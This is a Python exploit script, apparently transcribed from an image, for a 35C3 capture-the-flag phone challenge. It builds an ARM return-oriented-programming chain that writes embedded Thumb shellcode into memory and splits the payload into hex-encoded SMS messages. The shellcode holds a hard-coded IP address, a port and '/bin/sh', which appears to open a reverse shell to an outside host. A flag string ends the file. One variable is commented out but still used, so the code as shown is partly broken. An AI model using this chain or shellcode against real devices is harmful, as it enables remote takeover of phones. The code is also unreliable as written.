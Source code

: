 ```python
storer2r3 = 0x00013ad2
# 0x00013568 : str r4, [r3] ; mov r0, r1 ; pop {r4, pc}
storer4r3 = 0x00013568

ropchain_second = "A"*126

# 0x00012a6a : pop {r3, pc}
popr3 = 0x00012a6a

shellcode = "\x02\x20\x01\x21\x92\x1A\x0F\x02\x19\x37\x01\xDF\x06\x1C\x08\xA1\x10\x22\x02\x37\x01\xDF\x3F\x27\x02\x21\x30\x1c\x01\xdf\x01\x39\xFB\xD5\x05\xA0\x92\x1a\x05\xb4\x69\x46\x0b\x27\x01\xDF\xC0\x46\x02\x00\x12\x34\x25\x3b\x24\x28\x2f\x62\x69\x6e\x2f\x73\x68\x00"

print len(shellcode)
ropchain_second += p32(r4pop+1) #r4
ropchain_second += shellcode[0:4] #r4
for x in range(0, len(shellcode), 4):
    spiece_next = shellcode[x+4:x+8]
    if x >= len(shellcode)-4:
        spiece_next = p32(address+1) # These put jumping address in r4
        print "done"
    ropchain_second += p32(popr3+1) #pc
    ropchain_second += p32(address+x) #r3 value
    ropchain_second += p32(storer4r3+1) #pc
    ropchain_second += spiece_next #r4
#add jump to address
ropchain_second += p32(blxr4+1)



ropchain1 = ropchain[:134]
ropchain2 = ropchain[134:]

ropchain_second1 = ropchain_second[:134]
ropchain_second2 = ropchain_second[134:134*2]
ropchain_second3 = ropchain_second[134*2:134*3]
# ropchain_second4 = ropchain_second[134*3:]
print len(ropchain_second4)
print "smshex one 1 9999", encode_part(5+5, ropchain_second3, max_part=1, CSMS=23).encode("hex")
print "smshex one 1 9999", encode_part(5+6, ropchain_second4, max_part=1, CSMS=24).encode("hex")

# print "smshex one 1 9999", encode_part(5+4, ropchain_second2, max_part=1, CSMS=21).encode("hex")

print "smshex one 1 9999", encode_part(5+3, ropchain_second1, max_part=3).encode("hex")
print "smshex one 1 9999", encode_part(5, ropchain2, max_part=3).encode("hex")
print "smshex one 1 9999",encode_part(4, ropchain1, max_part=3).encode("hex")


#35C3_n0k1a_pH0ne_i5_b3st_ph0n3
```

